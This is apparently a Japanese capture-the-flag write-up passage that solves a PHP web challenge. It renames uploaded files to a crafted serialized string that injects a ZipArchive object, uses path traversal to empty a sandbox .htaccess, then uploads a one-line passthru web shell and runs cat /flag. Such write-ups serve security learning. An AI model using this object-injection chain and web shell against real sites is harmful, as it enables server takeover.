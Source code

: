 1. 適当なファイル (`1.php`、`2.php`) を 2 つアップロード
2. `2.php` を `;s:8:"realname";s:0:"";}i:1;O:10:"ZipArchive":2:{s:8:"realname";i:8;s:8:"filename";s:67:"` にリネーム
3. `1.php` を `../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../.php` にリネーム
4. `2.php` を `sandbox/$sandbox_dir/.htaccess` にリネーム
5. `?action=open&i=1` にアクセス

これで `.htaccess` が空のファイルになりました。

あとは `<?php passthru($_GET['cmd']);` という内容の PHP ファイルをアップロードして、`sandbox/$sandbox_dir/09498b08b610505823df6d0940db02b3685a77d7.php?cmd=cat+/flag` にアクセスするとフラグが得られました。

```
INS{gr4tz_f0r_y0ur_uns3ri4l1z1ng_tal3nts}
```

---

本番では `ZipArchive` を見つけたところで時間切れでした。くやしい。